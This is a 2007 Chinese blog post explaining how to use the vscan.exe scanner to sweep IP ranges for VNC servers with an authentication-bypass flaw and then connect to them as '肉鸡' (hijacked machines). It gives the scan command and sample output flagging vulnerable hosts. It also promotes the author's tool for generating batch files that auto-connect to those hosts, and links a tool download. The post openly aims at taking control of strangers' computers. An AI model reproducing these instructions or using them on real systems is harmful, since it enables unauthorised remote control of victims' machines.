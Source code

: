 title: vnc漏洞利用及vnc漏洞利用工具vscan.exe下载
tags:
  - vnc
  - vscan
  - 漏洞
id: 453
categories:
  - 其他
date: 2007-02-10 02:15:41
---

VNC(virtual network computing),是一种由AT&amp;T开发的远程控制的技术,简单来说,就是将远端的图形桌面显示到本地终端.有点类似微软的3389.

VNC漏洞利用工具包括两部分vscan.exe(在一些工具包中也叫VNC_bypauth.exe),主要用来扫描有vnc漏洞的主机.还有一个VNCLink.exe,这个也就是VNC Viewer,是一款vnc连接工具,类似3389.

国外很多的计算机都开启了vnc服务,我们可以利用vnc漏洞来进行抓肉鸡.

vscan的使用格式如下

vscan.exe -i StarIP-EndIP -p Port  -vnc -Option

例子:

vscan.exe -i 192.168.0.0-192.168.255.255 -p 5900 -vnc -vv

扫描完毕vscan会将结果保存在VNC_pauth.txt文件中.

文件内容如下

[php]----------------------------------------------------------------------------
COMMAND: vscan.exe -i 192.168.0.0-192.168.255.255 -p 5900 -vnc -w
----------------------------------------------------------------------------
192.168.139.170  :5900     connection closed
192.168.139.170  :5900     vnc4:banned
192.168.139.23   :5900     vnc4:patched
192.168.139.122  :5900     vnc4:patched
192.168.139.188  :5900     vnc4:patched
192.168.139.75   :5900     vnc4:banned
192.168.139.160  :5900     vnc4:VULNERABLE
192.168.139.181  :5900     vnc4:banned
192.168.139.251  :5900     vnc4:patched
192.168.139.89   :5900     vnc4:banned
192.168.139.110  :5900     vnc4:patched
----------------------------------------------------------------------------
Scan complete
--------------------------------------------[heapoverflow.com 2004-2005]----[/php]

类似192.168.139.160  :5900     vnc4:VULNERABLE这样后面有vnc4:VULNERABLE的就是可以连接的主机了,可以用VNCLink.exe直接连接.

如果连接上去的时候对方没有锁定计算机,那么恭喜你,你已经拿到一台肉鸡了.

因为扫描后要手动连接主机去验证主机是否可以控制,那么不停的连接就会变的很麻烦,这里给大家提供一个我自己写的工具来自动筛选可连接ip并且生成批处理程序自动进行连接,

工具地址 [~~http://www.foolbird.net/online/vnc/~~](http://www.foolbird.net/online/vnc/)

将你的vnc viewer路径填上,再将VNC_pauth.txt的内容粘贴到文本框中,然后进行生成,当出现结果页的时候查看网页的源代码,然后以.bat格式保存就可以了.

然后就可以用所生成批处理文件来进行自动连接了.

**附件:**[vnc.rar](http://www.foolbird.net/wp-content/uploads/2007/02/192_vnc.rar)(143206 Byte)
